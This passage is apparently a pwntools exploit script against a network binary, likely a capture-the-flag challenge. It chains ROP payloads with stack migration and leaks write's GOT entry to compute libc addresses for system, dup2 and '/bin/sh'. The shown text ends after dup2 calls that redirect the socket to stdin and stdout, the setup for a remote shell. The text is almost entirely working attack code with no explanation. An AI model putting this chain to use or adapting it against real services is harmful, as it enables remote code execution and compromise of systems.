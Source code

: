 ```python
        payload += p32(3)
        payload += "B"*8 # rbp
        payload += p64(pop_rdi) # return address
        payload += p64(6)
        payload += p64(pop_rsi_r15)
        payload += p64(buf1) # read the 2nd ROP chain to buffer1
        payload += p64(0)
        payload += p64(elf.symbols['read']) # read(6, buffer1, len)
        payload += p64(pop_rbp) # stack migration
        payload += p64(buf1-8)
        payload += p64(leave)
        r.send(payload)
        r.recvrepeat(0.5)

        payload = p64(pop_rdi)
        payload += p64(6)
        payload += p64(pop_rsi_r15)
        payload += p64(elf.got['write']) # leak write's GOT
        payload += p64(0)
        payload += p64(elf.symbols['write']) # write(6, write@got.plt, len)
        payload += p64(pop_rdi)
        payload += p64(6)
        payload += p64(pop_rsi_r15)
        payload += p64(buf2) # read the 3rd ROP chain to buffer2
        payload += p64(0)
        payload += p64(elf.symbols['read']) # read(6, buffer2, len) 
        payload += p64(pop_rbp) # stack migration
        payload += p64(buf2-8)
        payload += p64(leave)
        r.send(payload)
       
        write_addr = (u64(r.recv(6).ljust(8, "\x00")))
        log.success("write_addr: "+hex(write_addr))

        # thanks to libc database
        # offset_system = 0x0000000000046640
        # offset_dup2 = 0x00000000000ebfe0
        # offset_read = 0x00000000000eb800
        # offset_write = 0x00000000000eb860
        # offset_str_bin_sh = 0x17ccdb
        
        libc_base = write_addr - 0xeb860
        system_addr = libc_base + 0x46640
        dup2_addr = libc_base + 0xebfe0
        sh_addr = libc_base + 0x17ccdb
    
        log.success("libc_base: "+hex(libc_base))
        log.success("system_addr: "+hex(system_addr))
        log.success("dup2_addr: "+hex(dup2_addr))
        log.success("sh_addr: "+hex(sh_addr))
        
        payload = p64(pop_rdi)
        payload += p64(6)
        payload += p64(pop_rsi_r15)
        payload += p64(0)
        payload += p64(0)
        payload += p64(dup2_addr) # dup2(6, 0)
        payload += p64(pop_rdi)
        payload += p64(6)
        payload += p64(pop_rsi_r15)
        payload += p64(1)
        payload += p64(0)
        payload += p64(dup2_addr) # dup2(6, 1)
```